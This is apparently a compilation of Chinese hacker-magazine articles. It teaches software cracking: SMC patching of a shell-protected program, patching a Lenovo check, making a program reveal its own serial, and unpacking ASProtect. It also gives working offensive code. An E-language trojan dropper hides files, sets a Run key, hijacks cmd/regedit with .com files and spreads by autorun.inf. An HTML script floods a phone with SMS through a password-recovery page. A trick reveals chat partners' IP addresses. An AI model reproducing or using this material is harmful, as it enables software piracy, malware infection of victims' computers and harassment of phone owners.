首先需要明确的是，我们破解的工作是在不脱壳的情况下进行的，这一点很重要。其次，大家还记得，如果我们在不脱壳的情况下对软件本身的代码进行修改，那是肯定不能成功的。由于壳的保护作用，直接尝试去修改软件代码，会引起无法定位代码的情况。所以，我们最好把目标锁定在修改壳的代码上。软件在壳的保护下，一切活动都受到了“壳”的严密监控，一旦发现异常立刻采取相应的措施进行阻止。但是，如果我们把软件的壳修改了，使得壳不能正确地监视和引导软件的运行，而是给软件传递错误的信息，甚至是我们精心构造的任何代码，那么软件的运行情况就会发生变化。就好比是病毒突破了我们自身的免疫系统，使得这些病毒可以在我们体内肆意破坏，却不会被发现或者遭到抵抗。

迷惑软件的壳，就是 SMC 破解法最基本的原理。说到这儿，又出现了两个新的问题：

- 1. 壳的代码成千上万，如何定位需要修改的代码。
- 2. 找到了需要修改的代码，如何去修改。

我们从如何定位代码的位置说起。由于我们需要修改壳中的代码，所以这一切都要在壳中进行，这就是为什么刚才准备修改代码时使用了 ESP 定律后没有继续单步跟踪到软件的 OEP 的原因。可以这样简单地理解：当没有看到软件的 OEP 之前，我们遇到的所有代码都是“壳”的代码。由于壳对于软件的影响是非常大的，相当于我们自身的免疫系统，稍有不慎，就会造成软件崩溃。所以，我们修改壳代码的原则就是不影响壳的正常功能，也就是让壳把它自己的本职工作都完成的时候，再去执行我们添加的代码。于是，我们把修改代码的位置定位在了跳向软件 OEP 之前的一刹那，因为此时壳的工作基本上都完成了，就要把控制权交还给软件自身了，这个时候我们刚好可以下手。因此，我们修改代码的位置——也就是在即将跳向 OEP 时的那句代码，一般来说都是一个大范围的跳转代码。

我们再来看如何去修改代码。当我们找到了可以修改代码的位置时，就要仔细考虑如何去修改代码了。现在就要向软件的壳中植入我们想要被软件执行的代码，目的就是干扰软件的正常运行。具体到破解的工作中，就是使软件不能够正常判断我们输入的注册码是否正确，那么我们该如何添加呢？

首先，我们需要找到一个可以添加代码的空间，也就是得找个地方把我们自己的代码放进去。所以，刚才我们在实践中的时候找到了一大段空白数据的地方，并在那里写进了我们自己的代码：

```asm
0046D692  C605 FD394500 74    mov byte ptr [4539FD], 74
0046D699  E9 5266FEFF         jmp 00453CF0
0046D69E  0000                add [eax], al
```

接着，代码需要被执行。如果我们写进去的代码没有被软件执行，那所有的工作就白费了，必须要让这些代码能够有效地被执行才行。因此，我们修改了代码运行的方向。原本，壳在运行到这里的代码时，就要跳向程序的 OEP 了。既然任务就要结束了，那就顺便把小菜们输入的代码也执行一下吧。于是，我们把 `0046D67C E9 6F66FEFF jmp 00453CF0` 修改成了 `0046D67C EB 14 jmp short 0046D692`。

原本这个跳转是要跳向程序的 OEP 的，但是经过我们的修改，代码的运行方向发生了改变，`jmp short 0046D692` 所对应的地址正是我们添加代码的位置（结合代码段就能很容易看出来）。

最后，我们要让壳完成任务。虽然此时我们写进去的代码已经能够被执行了，但是由于跳转方向发生了变化，原本应该跳向程序 OEP 的代码被修改了，壳而去执行了我们自己写的代码。因此，应该把控制权交还给软件自身代码的任务就无法完成，这样就会导致程序无法运行。因为我们把壳与软件本身强行拆开了，壳没有办法继续执行后面的代码，而软件则一直收不到壳发来的信息，也就没有办法运行自己的代码。所以，我们最后一定要让壳把最后的工作完成才行。我们在最后写了这样一句代码：`0046D699 E9 5266FEFF jmp 00453CF0`。与修改前的代码 `0046D67C E9 6F66FEFF jmp 00453CF0` 比较一下，可以很明显看出，代码的内容没有发生变化，只是代码所处的位置变化了，当然这不影响程序运行。

经过了以上三个步骤，最后将代码复制到程序中，也就是把我们添加的代码融入到程序之中，软件就会乖乖地听我们的了，我们可以任意操纵写入的代码，软件只能坚决执行。小菜们不就可以为所欲为了么？

还有一句非常重要的代码我们始终没有给大家说明。由于它太重要了，所以要最后出场。这就是我们修改代码时所添加的第一句代码 `0046D692 C605 FD394500 74 mov byte ptr [4539FD], 74`。这句代码是什么意思呢？

小菜们回忆一下刚开始分析的过程，我们原本是打算修改 `004539FD 75 0C jnz short 00453A0B` 这句代码，直接使程序不能正确判断注册码，但是由于壳的存在，我们没有办法继续进行修改。大家现在注意我们添加的代码 `0046D692 C605 FD394500 74 mov byte ptr [4539FD], 74`，其中的关键指令是 `mov byte ptr [4539FD], 74`。先从代码含义开始分析，mov 指令是典型的赋值指令，“mov A,B”就是将 B 中的值赋给 A。`mov byte ptr [4539FD], 74` 就是将 74 这个数值赋给 4539FD 这个地址当中，那么 4539FD 这个地址对应的代码恰恰是我们原本打算修改的代码 `004539FD 75 0C jnz short 00453A0B`。

聪明的小菜现在明白了吗？其实我们还是修改了这个最关键的代码，只不过是从直接修改变成了间接修改。为什么我们要把 74 这个值赋给它呢？小菜们又问道。一看就知道小菜们没有认真复习，我们在第一课就讲过了：JNZ 跳转的含义是不相等则跳转，对应的机器代码是 75；JE（JZ）跳转的含义是相等则跳转，对应的机器代码是 74。现在大家明白了吧，其实我们还是采取了通过对关键代码进行修改这样的方法来达到目的的。与以往不同的是，我们没有直接去修改相应的关键代码，而是采用间接的办法欺骗了程序的运行，同样达到了使程序不能正确判断注册码是否正确的作用。

讲到了这里，相信小菜们已经明白了为什么修改了壳的代码却能实现对程序的破解。从实践和理论两个方面对 SMC 破解法进行了介绍后，小菜们的心中也就有了一个大概的认识了。

## 第三章：学习总结

现在，我们就把今天所说的众多知识点为大家进行一下梳理和总结：一般情况下应该如何去使用 SMC 破解法呢？

第一步，定位关键的代码段。这一步非常重要，直接关系到后续任务能否顺利完成……当找到程序的原入口点后，还要根据以前学到的方法来对关键位置进行定位。

第二步，分析关键代码。当找到了关键代码后，我们就要对具体代码进行分析……并记录下以下两个较为关键的信息：

- 关键代码对应的地址
- 关键代码对应的机器码（就是代码段之前显示的一段数字）

第三步，确定添加代码的位置……

第四步，修改程序代码。找到了可以添加代码的位置，紧接着就可以添加代码了。

- 保证所添加的代码能够被执行
- 所添加的代码不能影响原程序的功能

SMC 破解法主要的过程就是以上四个步骤……对于 SMC 破解法最高的评价，就是它颠覆了“破解一定要脱壳”这样一个传统观念。


前几天一哥们找上门，让我解除一款联想本本专用摄像软件 EasyCapture2.0 的限制（图1）……接下来我就带各位读者走进联想本本专用软件 EasyCapture2.0 的破解之旅。

## 一、软件破解——“软刀子”杀人不见血

EasyCapture2.0 运行要判断系统的一些信息，来作为辨别是否为联想电脑的依据……我找到 CheckInst.dll 这个文件，凭直觉和经验判断它就是判断是否为联想电脑的文件。

拿过来安装程序，使用 PEiD v0.94 查壳，显示为 Microsoft Visual C++ 6.0 [Overlay]（图2）。先进行静态分析……“CheckLenovo”这个字符串引起了我的关注。


双击“CheckLenovo”跟进，往上寻找最近的跳转：`004027A4 750A jne 004027B0`；关键跳。接下来修改 `jne -> jz`，也就是修改 `75 -> 74`。在关键跳转上点鼠标右键，选择编辑修改，在弹出的对话框中修改 `75 -> 74`，然后点击应用，备份生成修改后的 `EC2.0-setup_BAK` 文件（图4）。运行 `EC2.0-setup_BAK` 文件，能够正常安装程序了，大功告成（图5）。


### 小知识：解密时经常修改的指令

汇编指令修改的一般规律和常见写法：

- `jnz/jne -> nop`（如 `75 -> 90`）
- `jnz/jne -> jmp`（如 `75 -> EB`）
- `jz/je -> nop`（如 `74 -> 90`）
- `jz/je -> jmp`（如 `74 -> EB`）
- `jnz -> jz`（如 `75 -> 74`，`0F85 -> 0F84`）
- `jz -> jnz`（如 `74 -> 75`，`0F84 -> 0F85`）

## 二、硬件修改——“软”的玩过了，再来玩玩“硬”的

修改主板 BIOS，把自己的电脑修改为联想的。我们所需要的工具是 `AWDFLASH.EXE` 和 `MODBIN6.EXE`，因为联想的电脑使用的是 AWARD6.0 的 BIOS。下面我们就以修改 AWARD6.0 的 BIOS 为例，来介绍一下修改的方法。一般 845 后的主板使用的都是 6.0 的 BIOS，对于 AWARD6.0 以前的 BIOS，你也可以试一下。

- 使用刷新程序 `AWDFLASH` 将主板 BIOS 存为 `hacker.bin` 文件。  
- 启动 `MODBIN6`，读入刚才备份的 BIOS 文件（图6），移动光标到“Chang BIOS Message”处，显示原 BIOS 中的 OEM 标志字符串（图7），修改该字符串为“LEGEND Dragon”（注意大小写，图8），保存后再将光标移动到“Display BIOS Message”，会显示修改后的信息（图9）。
- 运行刷新程序，把修改后的 BIOS 刷到主板中。  
- 重新启动计算机，EasyCapture2.0 就能正常安装了。


上面修改 BIOS 改变电脑品牌的方法，还可以应用到一些正版厂商的 OEM 版本 XP 安装光盘的安装上，不同品牌 BIOS 修改刷新方法大同小异。

本文只是从研究技术的角度上，对 EasyCapture2.0 程序进行安装限制的修改，以学习研究为目的的反向安装该程序，请不要用于商业目的。

## 从零开始学破解之（二十一）

## 软件注册变成注册码机


上期杂志为大家讲解了一种全新的暴力破解方法——SMC 破解法，这个方法可着实让小菜们大吃一惊……虽然这个方法学习起来有些难度，但是大家依然硬着头皮把它啃下来了。

将 SMC 破解法划分到暴力破解的范围中，许多小菜都想不通……它的根依然是修改代码，所以也就只能将它归在暴力破解的范畴了。

说实话，当大家学习 SMC 破解法的时候，肯定是一头雾水……都说温故而知新，简单给大家总结一下 SMC 破解法的一般步骤：

### 1．定位关键代码

在不脱壳的前提下定位关键代码是有一定难度的，我们必须熟练掌握脱壳的方法才能够进行……通过关键词字符串来定位与软件注册部分有关的“关键代码”就可以了。

### 2．记录关键代码的位置以及机器码

当我们找到关键代码后，就要记录下来代码所处的位置和关键代码对应的机器码。

```asm
004539FD  75 0C   jnz short 00453A0B
```

其中的 `004539FD` 就是我们首先要记录下来的代码位置，后面的“75 0C”则就是传说中的机器码。

### 3．修改程序代码

在这一步就要把我们想让程序执行的代码写到程序中去了……具体的方法大家好好复习上节课所讲的内容，这里只做简单的复习。

关于 SMC 破解法的基本内容我们就复习到这儿……今天我们要讲的内容没有 SMC 破解法那么难，实践起来也是非常简单方便的。

小菜们刚一听到就表现出了绝不相信的表情……我们一起来看看吧！

## 第一章：实践篇

“怎么能让软件把注册码告诉我们呢？”这其中究竟有什么秘密呢？……我们就是要使用这些最简单的东西来完成小菜们心中最不可能完成的任务。

### 第一节、软件初步分析

首先还是检查一下软件的基本情况……今天的重点又不是脱壳，对付 ASPack 系列的壳最有效的当然是 ASPackDie，使用方法就不多说了。


使用 OD 载入目标软件，依然是打开 OD 的字符串查找功能……双击它到对应的代码处看看，看到这样一段代码（图3）。


凭借着丰富的经验，小菜们一眼就看出了这段代码是我们一直所说的“关键代码”，这段代码的含义也非常简单，总结一下就是这样一个过程：

- 将输入的注册码与计算得出的注册码进行比较。
- 如果两个注册码不相等，就提示我们注册失败。
- 如果两个注册码相等，那么就提示我们注册成功。


图3

软件注册部分的代码一看就知道是怎样一个过程了。

这么容易就分析出了关键代码的含义，那么接下来该干什么呢？小菜们的第一反应，就是把那个再明显不过的跳转指令进行修改，来对软件实施暴力破解。嗯，小菜们的想法非常不错，面对关键代码如此明显的软件，直接采取修改关键跳转的方法进行暴破是最简单有效的办法了。不过今天我们要给大家介绍的是如何让软件自己报出注册码，相比之下普通的暴破对我们来说就没有什么吸引力了。到底要怎么做，软件才能自己把注册码告诉我们呢？小菜已经有点急不可待了。

### 第二节、寻找软件的注册码

在软件自己把正确的注册码告诉我们前，我们必须手动寻找一次软件的注册码。“这不是多此一举吗？”小菜们说道。既然已经都找到了软件的注册码，那又何必再做什么修改呢？直接把注册码取出来用不就可以了吗？大家的想法没错，但是我们要注意这样一个情况。对于现在的小菜来说，找出这个软件的注册码就是小菜一碟。不过，并不是所有的人都能够找出软件的注册码。当小菜把软件介绍给朋友的时候，由于机器码发生了变化，我们现在找出的注册码肯定不能直接用了。所以，不能只满足自己能够找到注册码，还必须要“造福他人”！但不管怎样，找出软件的注册码都是必须要做的步骤。寻找注册码的过程非常简单，我们一起复习一下。

把代码提取出来，跟着小菜们一起复习寻找软件注册码的过程。首先我们在 `004F5B6D | 68 F1E05D00 push 5DE0F1` 这句代码上设置一个断点，然后让软件在 OD 中运行起来，并在弹出的注册码对话框中任意输入一个注册码，按下“确定”按钮后大家就会发现软件被中断下来，并停在了我们设置断点的那句代码上。现在开始使用单步跟踪的方法来寻找软件的注册码，每按一下 F8 软件就会执行一行代码。大家在跟踪的同时，一定要注意 OD 其它窗口中内容的变化。当跟踪到 `004F5BA3 | 8B55 E4 mov edx,[ebp-1C]` 这句代码时，我们注意看 OD 右下角窗口中的信息，其中的 123 是我们自己输入的注册码，而与此同时出现的那一串奇怪的字符串则就是软件真正的注册码了，如图4。不相信的话我们可以试着去注册一下看看。

### 第三节、注册码，赶快出来吧！

通过以上分析，我们知道了真正的注册码出现的位置，现在我们要做的就是想办法让软件把注册码显示出来。不论注册码或机器码是什么，都能够自动地将正确的注册码显示出来。这一点该怎么实现呢？小菜一时之间还真被难住了。

我们把目标放在软件的注册提示窗口上。软件的注册提示窗口有两种，一种是提示注册成功，另一种是提示失败。从出现的频率来看，我们见到最多的是注册失败的提示窗口，因此就把这个“注册失败”提示窗口作为我们的目标。“咦？这个是什么目标呢？”小菜顿时觉得有些莫名其妙。其实这里的“目标”可以理解为“载体”。简单来说，我们现在是想让软件自动把注册码告诉我们，但就算软件十分急切地想把注册码告诉我们，如果没有一个合适的显示注册码的地方，那我们同样也是看不到注册码的。所以，这里我们要做的就是选择一个合适的“载体”用来显示软件的注册码。把注册失败提示窗口作为显示注册码的载体，也就是说原本在我们输入任意一个注册码时本应弹出的是注册失败提示，但是经过我们的修改，弹出的就会是软件的注册码了。呵呵，就是这么神奇，赶紧来试试吧。


图4

我们在跟踪到 `004F5BA3 | 8B55 E4 mov edx,[ebp-1C]` 这句代码时第一次看到注册码的踪迹，所以注册码与这句代码的关系一定不一般。分析一下这句指令的含义，很明显这是 MOV 赋值语句，意思就是将 `[ebp-1C]` 中的内容赋值到寄存器 EDX 中，因此可以推断这句代码的作用是把真正的注册码赋值到寄存器 EDX 中。我们目前暂时认为 `[ebp-1C]` 这个地址中存放的正是软件的注册码，确定了注册码的位置后继续寻找用于显示注册码的地方。

```asm
004F5C47  B9 AC5C4F00   mov ecx, 004F5CAC
004F5C4C  BA 8C5D4F00   mov edx, 004F5D8C
...
```

```asm
修改为：
004F5C47  B9 AC5C4F00   mov ecx, 004F5CAC
004F5C4C  8B55E4        mov edx, dword ptr [ebp-1C]
004F5C4F  90            nop
004F5C50  90            nop
```

也就是只需要修改 `004F5C4C | BA 8C5D4F00 mov edx,004F5D8C` 这句代码即可。保存修改结果并运行后，软件仍会打开注册窗口，输入任意注册码并点击“确定”，观察弹窗变化（图5）。


怎么样，软件是不是把注册码乖乖地交出来了呢？到底是怎么回事呢？

## 第二章：原理篇

小菜们现在心中最大的疑问肯定是“为什么要这样修改代码呢？”整理思路来分析：没有修改代码前，任意输入注册码会提示“注册失败”；修改代码后，任意输入注册码则会显示原本应在失败时出现的信息位置发生了替换。

当我们修改代码后，任意输入一个注册码，软件会乖乖把真正的注册码告诉我们。关键修改是将 `004F5C4C | BA 8C5D4F00 mov edx,004F5D8C` 改成 `004F5C4C | 8B55E4 mov edx,dword ptr [ebp-1C]`。MOV 指令会把 B 赋给 A，因此寄存器中出现了注册码的身影，也就说明 `[ebp-1C]` 存放的是注册码。

```asm
修改前：
004F5C47  B9 AC5C4F00   mov ecx,004F5CAC
004F5C4C  BA 8C5D4F00   mov edx,004F5D8C

修改后：
004F5C47  B9 AC5C4F00   mov ecx,004F5CAC
004F5C4C  8B55E4        mov edx,dword ptr [ebp-1C]
```

通过 OD 提示可看出，修改前该段代码用于弹出“注册码错误，请重新输入！”；修改后，EDX 传递的数据改为 `[ebp-1C]` 中内容，也就是注册码本体。这个变化本质是一次信息替换。


这样一看这个过程并不复杂：传统暴力破解多从“比较注册码是否正确”处下手；这里则从软件保存的注册信息入手，定位注册码存放位置，再找到用于显示信息的载体进行替换。方法看似简单，但定位与修改过程仍需反复试验与精确分析。

基本最简单的技术之上，只有熟练掌握最基础的技术，才有可能学会更高级的技术。假如我们缺乏经验，不能准确定位保存注册码的位置，那接下来的工作可能就没有办法完成了。因为在注册验证过程中注册码可能会出现好多次，我们究竟该选择哪一个位置？如果我们不会分析代码的含义，那就更提不上修改代码了。所以，小菜们在惊喜之后，还一定要多多反思。

（本文所涉及到的 FlashPT2.2、FlashPT2.2 破解器、OD、PEID 已收录到光盘中）


## 手工来脱壳 ASProtect 2.3 SKE

子建

自从 Talent Feng 大虾在杂志上连载了软件破解的文章后，友子们都学到了不少东西，不过对于那些刚看杂志不久的新手朋友，可能还不太会脱 Asprotect 的壳。今天我就以 ASProtect 2.3 SKE 为例来为大家讲述一下脱壳过程。

### 一、壳分析

Asprotect 在所有的壳之中无疑是最牛的，它的壳中有肉，肉中带壳，脱壳完后往往还需要修复才行。首先我们使用 PEiD 载入加壳程序 keygen.exe，检测到的壳为“ASProtect 1.2x - 1.3x [Registered] -> Alexey Solodovnikov”，如图1。PEiD 并不能识别其具体的版本，这时我们需要用到一个识别 Asprotect 壳的 PEiD 插件 vera.dll（看雪论坛有下载）。下载后将 vera.dll 复制到 PEiD 的 plugins 目录，这时我们再来查壳，就会发现是“Version: ASProtect 2.3 SKE build 05.14 Beta [2]”了，如图2。知道是什么壳就好办了，我们马上动工脱壳。

### 二、脚本脱壳

我们使用 Asprotect 的专用脱壳工具 stripper v2.11 来试试，发现并不能将壳脱掉，如图3。既然专用工具都脱不了，那就只好手工来脱壳了。下边，就要用到我们的脚本脱壳大法了。要用到的脱壳脚本是 Aspr2.XX_IATfixer_v2.2s.osc，该脚本支持脱 Asprotect 的 1.32 - 2.3 之间许多版本的壳。使用 OD 载入 keygen.exe，选择“插件”下的“ODbgScript”→“运行脚本”→“打开”，选择 Aspr2.XX_IATfixer_v2.2s.osc，如图4。


这时 OD 会提示“This script work with odbgscript 1.47 or above”（该脚本运行在 OD 脚本 1.47 或以上），我们需要去看雪论坛下载一个 OD 脚本压缩包，解压后将 release 目录下的 ODbgScript.dll（1.48）替换 OD 插件目录 plugin 下的 ODbgScript.dll。重启 OD，重新载入 keygen.exe 再次运行脚本，OD 就溜溜地跑了起来，出现信息提示后连点两次确定，这时程序就已经 dump 出来了，生成了一个名为 un_Keygen.exe 的文件。友子们再去查壳就会发现已经没有壳了，如图5。


不过当我们运行这个脱壳后的 un_Keygen.exe 时却提示了错误，如图6。不用着急，这是因为我们在给程序脱壳时伤到了它的“肉”，也就是损坏了源程序，这时就该我们的修复利器 ImportREC 上场了。

### 三、修复程序

在请出 ImportREC 之前，我们先看看 OD，点击“查看”→“记录”，就来到了一个新天地，如图7。


这里只记录了 OD 运行过程中的一些信息，来看最后几行信息：

```
00BECEC   断点位于 00BECEC
00E3E7B   断点位于 00E3E7B
00ECE1C   硬件断点 1 位于 00ECE1C
iatstartaddr: 0040B0A0
iatstart_rva: 0000B0A0
iatsize: 00000130
0040820C 当执行 [0040820C] 时设置内存断点
OEP_rva: 0000820C  这个就是 oep
```

过会儿我们就要用到它，先关掉 OD，运行 keygen.exe。运行 ImportREC，在进程中选择 keygen.exe 的进程，如图8。


看到程序下面的 OEP 了吗？在这里我们填写刚才从记录中获得的信息：“0000820C rva”一栏我们填写“0000B0A0”，“size”一栏我们填写“00000130”，然后点击“Get Imports”，如图9。


再点击右边的“Show Invalid”，也就是显示无效函数，然后在无效函数上点击右键，选择“Plugin Trace”（插件追踪），从中选择一个相应的修复插件来修复，如图10。


不过我没有找到一个合适的插件来修复，我采取的是“Delete Thunks”，如图11。接着点击“Fix Dump”，选择刚才 dump 出来的文件，如图12。点击“打开”，就会生成一个名为 un_Keygen_.exe 的文件了。我们来运行 un_Keygen_.exe 看看，运行成功了，如图13！


注册码，再点“Generate”，按 F7 跟入，再按 F8 跟随九十几下后就会发现堆栈中出现了注册码“HZF-RQX(-GFD)”。

一般被 ASProtect 加的壳在脱壳后都需要修复，因此我们通常采用脚本脱壳法，这次说的方法没对相关的修复插件，因此是使用强硬的手法脱的壳，所以并不完整。双子们可以举一反三，大多数 ASProtect 加的壳还是有相应的修复插件的。

（本文所涉及到的相关工具 OD、PEID、Stripper v2.11、ImportREC，已经收录到光盘中）

我简单讲一下找注册码的过程，在 OD 中点右键，选择“查找”→“所有参考文本字符串”，找到 badboy 后，双击，然后在 `0040802C | E8 E3FDFFFF CALL un_Keyge.00407E14` 下断点，按 F9 运行，在姓名处填入 1234，也就是随便填写一个注册码。

## QQ之IP变相看

看了上期杂志光盘中的“指定IP单机电脑入侵教程”，便照着实践了一下，毕竟再好的技术也得需要时间来熟练掌握嘛。可是我的珊瑚虫 QQ 却不能用了，本想用它查看下面好友的 IP 地址的……说是什么连接不上服务器，如图1。可能是我家网络的原因，但也正因为它，给了我灵感。


我记得以前有次登录网站结果却中招了，打开防火墙（瑞星的）看到了 QQ 的进程，进去看了下，发现了几个 IP 地址，也没有怎么多注意。现在想起来，那个 IP 地址不正是我们正在聊天的对方的 IP 地址吗？


就可以看到前后两个 IP 地址，前面的那个地址是我的，后面的就是你想看的那位好友的了。不过前提是必须要同他先聊上几句，给对方发个信息，他再给你回复一下。这样我们就成功看到对方的 IP 了，如图3。

为了验证这 IP 地址是否正确，我还专门让他到 www.ip138.com 查了下自己的 IP，确实是正确的。以上就是一个很简单的小技巧，我们平时多注意一下操作时的每一个细节就会发现的！


## 易语言之木马武装——小小木马

现在的肉鸡是越来越不好抓了，随着人们安全意识的提高，我们的小马也是一批批地被宰。作为叉子这是不容许的，本文我就教大家使用易语言来将我们的木马打造一番，编写一个超强的木马。要使木马变得强悍必须要做到以下几点：

- 启动项和文件的隐藏程度；
- 被干掉后木马能否恢复；
- 其传染性如何。

我们以这三个标准来进行打造。


打开易语言 4.04，新建一个 Windows 窗口程序，找一个你认为伪装性很高的图标（图1），其它的就不用管了。因为制作得再漂亮我们也不会让肉鸡的主人看到的，所以界面就凑合吧。

首先我们准备几个文件：要使用的木马一只，cmd.com 和 regedit.com。看到这儿可能有些读者或许已经知道了，我们将利用 com 文件的优先级来进行日后如果木马被杀后的复活工作。拿出 WinRAR 分别把我们的小马制作成 2 个自解压文件，配置过程有点像 radmin 的服务端，只是把解压前运行改为 cmd.exe 和 regedit.exe 就行了（图2），然后把打包好的文件扩展名 exe 重命名为 com 类型。

回到易语言中，我们把准备好的木马做成资源。首先点“插入”→“资源”→“声音”（图3），在声音名称处起个名字，以后释放木马时会用到。双击内容对应的那个框就会弹出一个对话框，选择导入新声音，在通用对话框选择相应的文件。需要注意的是文件类型得选所有文件，声音添加完毕后，我们就可以输入代码了（图4），先插入几个变量（图5），下面是主体代码：

```
木马=读取环境变量("Windir")+"\amima.exe"
木马1=读取环境变量("Windir")+"\System32\cmd.com"
木马2=读取环境变量("Windir")+"\regedit.com"  # 定义我们要生成的木马路径为文本型

删除注册项(#本地机器,"SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL","CheckedValue")
写注册项(#本地机器,"SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL","CheckedValue", 伪)  # 关闭显示所有文件
写注册项(#本地机器,"SOFTWARE\Microsoft\Windows\CurrentVersion\Run\msconfig", 读取环境变量("Windir")+"\System32\xxmm.exe")

运行("Cmd /c Attrib +H +S "+读取环境变量("Windir")+"\amima.exe", 真)
运行(木马, 假)

写到文件(读取环境变量("Windir")+"\system32\cmd.com", #命令)
运行("Cmd /c Attrib +H +S "+读取环境变量("Windir")+"\System32\cmd.com", 真)

写到文件(读取环境变量("Windir")+"\regedit.com", #注册)
运行("Cmd /c Attrib +H +S "+读取环境变量("Windir")+"\regedit.com", 真)
```

上面代码实现的功能是把我们的小马运行，并在相应的文件夹下生成 cmd.com 和 regedit.com，并做好相应的伪装。但是这样的话好像并不怎么完美，再加个 U 盘传播功能吧。在 07 年第 1 期的杂志中有篇使用 VB 编写 U 盘病毒的文章，在这里我们就来借用一下。找出光盘把程序拖出来，再回到声音资源那里添加 2 个资源（图6），然后再添加以下代码：

```
写到文件(读取环境变量("Windir")+"\AUTORUN.INF", #启动)
运行("Cmd /c Attrib +H +S "+读取环境变量("Windir")+"\AUTORUN.INF", 真)

写到文件(读取环境变量("Windir")+"\service.exe", #传播)
运行("Cmd /c Attrib +H +S "+读取环境变量("Windir")+"\service.exe", 真)
运行(读取环境变量("Windir")+"\service.exe", 假)  # 生成并执行
```


| 声音名称 | 内容 | 公开 | 备注 |
|---|---:|---|---|
| 命令 | 108021 |  | cmd.com |
| 注册 | 108020 |  | regedit.com |
| 木马 | 6959 |  | numa.exe |

| 声音名称 | 内容 | 公开 | 备注 |
|---|---:|---|---|
| 命令 | 108021 |  | cmd.com |
| 注册 | 108020 |  | regedit.com |
| 木马 | 6959 |  | numa.com |
| 结束 | 16634 |  | service.exe |
| 启动 | 37 |  | bor...ing |


个超级木马命名为 server.exe，也给存放到这里。实现代码如下：

```
如果真（取运行目录() + "\\" + 读环境变量("Windir") + "\\System32?"）
    复制文件（取运行目录() + "\\" + 取执行文件名(), 读环境变量("Windir") + "\\System32\\xxmm.exe"）
运行（"Cmd /c Attrib +H +S " + 读环境变量("Windir") + "\\System32\\xxmm.exe", 真, ）
复制文件（读环境变量("Windir") + "\\System32\\xxmm.exe", 读环境变量("Windir") + "\\server.exe"）
写到文件（读环境变量("Windir") + "\\System32\\del.Bat", 到字节集("@echo off" + #换行符 + ... + "Exit"))
写到文件（读环境变量("Windir") + "\\System32\\del.Bat", 到字节集("子文本替换（子文本替换（到文本（读入文件(...)）...）"))
运行（读环境变量("Windir") + "\\System32\\del.Bat", 真, ）
结束()
```

上面的代码也就是实现了自我删除和自我复制的功能，同时也完善了 Zorro 的 U 盘病毒，使之加上了隐藏属性。这里我并不赞成把每个盘都给放上 autorun.inf 和木马，因为那样的范围太大了，容易被发现。另外对于上面的程序我有几点建议：

- 1. 启动项可以做得更隐蔽些，比如替换系统服务等，这需要大家自己来研究了。
- 2. 这里我们是使用 xxmm.exe 来生成并启动我们的木马，也就是说我们的木马可以抛弃启动项，同时我们的程序会最终运行结束，并不会有进程，这增加了隐蔽性。
- 3. 在注册表写入部分可以把需要修改的部分在本机修改后再导出，然后加入资源使用 `regedit.exe /s xxx.reg` 来完成注册表的修改。
- 4. 编写病毒是不好的，请时刻提醒自己不要做违法的事情。

## 短信炸弹 DIY

最近我的手机收到一份动感地带的零听资费套餐，每个月赠送 2 条彩铃，既然是赠送的，不用白不用。来到广西彩铃网站（http://gx.12530.com），填入手机号码（图1）后，密码是什么？不知道呀，不要紧，直接点找回密码吧，然后就来到如图2所示的页面。

不一会儿，我的手机就收到了彩铃的密码。这时我仔细观察了下这个页面，填入你的登录账号与手机号码，然后直接点取回密码，系统就会把你的彩铃密码发送到你的手机上。既然不需要填写任何的验证码，那么这期间是不是有什么发送限制呢？如果没有的话我们是否可以用这个来制作一个短信炸弹程序呢？

来试试吧，我连续使用 CTRL+V 粘贴我的手机号，然后点取回密码，结果是每次都返回密码已发送，说明手机也会收到短信。一下子收到几十条信息，看来是成功了！

虽然试验已经成功了，但是老是使用 CTRL+V 也太麻烦了，我决定编写一个利用程序。要编写出利用程序就必须要知道我们取回密码的时候提交了什么参数，于是我打开了 WsockExpert，选择对取回密码的页面进行监控（图3）。


然后我把取回密码的过程重复了一遍，不一会儿，WSOCK EXPERT 就抓取了我们提交的参数为 `phonenumber=13888888888`。很明显 phonenumber 后面跟的就是我们所要轰炸的电话号码。我试着提交 `http://gx.12530.com/user/querypwd.do?phonenumber=13888888888`，果真返回了密码已发送的页面，而且我的手机也很快收到了信息。既然已经知道了提交的格式，那么我们就编写一个程序来批量提交吧。


图2

```html
<html>
<head>
<title>...</title>
<meta http-equiv="Content-Type" content="text/html; charset=gb2312">
<script language="JavaScript">
<!--hide----
function pop(){
  for(i=1;i<=50;i++){
    window.open('http://gx.12530.com/user/querypwd.do?phonenumber=13888888888','','width=0,height=0,status=off,location=off,toolbar=off,scrollbars=off')
  }
}
//-->
</script>
</head>
<body bgcolor="#FFFFFF" text="#000000">
<form name="form1">
  <p><input type="button" value="开始轰炸" onclick="pop()" name="button"></p>
</form>
</body>
</html>
```


图3

把这段代码保存为 `test.html`，然后运行，IE 会提示阻止了危险脚本（图4）。允许后点击“开始轰炸”，就会循环弹出多个窗口。经过测试，轰炸成功率与网络响应有关，`for(i=1;i<=50;i++)` 控制每次轰炸次数，可按需调整。


图4


图5

好，接下来可以用 EXE 程序直接填写号码并控制轰炸速度（图5）。

用这个 EXE 程序每次似乎只能轰炸 5 条信息。上面的这个方法只是针对广西移动用户的，那如果是其他地区的用户呢？后来我大概看了看其他地区的彩信网站，发现大多数都可以使用取回密码的方法来进行短信轰炸，不过各个地区可能有点限制，比如湖南地区的会限制单日取回密码的次数，广东地区的会限制 60 秒内发送一次，北京地区的则会有简单的验证码等，但大多数都是可以通过抓包获取提交的参数，然后循环提交进行短信轰炸的……网站确定某个移动手机号码是什么地区的，然后到相应的彩铃网站抓包提交就可以对该手机号码进行短信轰炸了。其实短信炸弹并不是什么新鲜的东西，只不过以前发送短信炸弹的漏洞大都是存在于各个 SP 的站中，如今各大 SP 都对这方面进行了严格的把关，但没有想到移动官方的站点却还存在这样的漏洞……

## VB木马一句话EXE木马

杨吉瑜


有读者反映说现在的木马大多都使用到了注册表技术、DLL 技术、文件流技术等，那么既然我们能把目光放得那么远，为何不能把技术的范围缩小一下，将视角放到简单的问题上来呢？本文我就要教给大家一种制作一句话 EXE 木马的方法。一句话 EXE 木马有什么用呢？首先它适合用作小马传大马的操作；其次因为它非常小巧，运行起来几乎可以忽略它的大小，令人不易察觉。本文中的这个一句话木马要实现的目的很简单，就是公开电脑里所有的秘密！

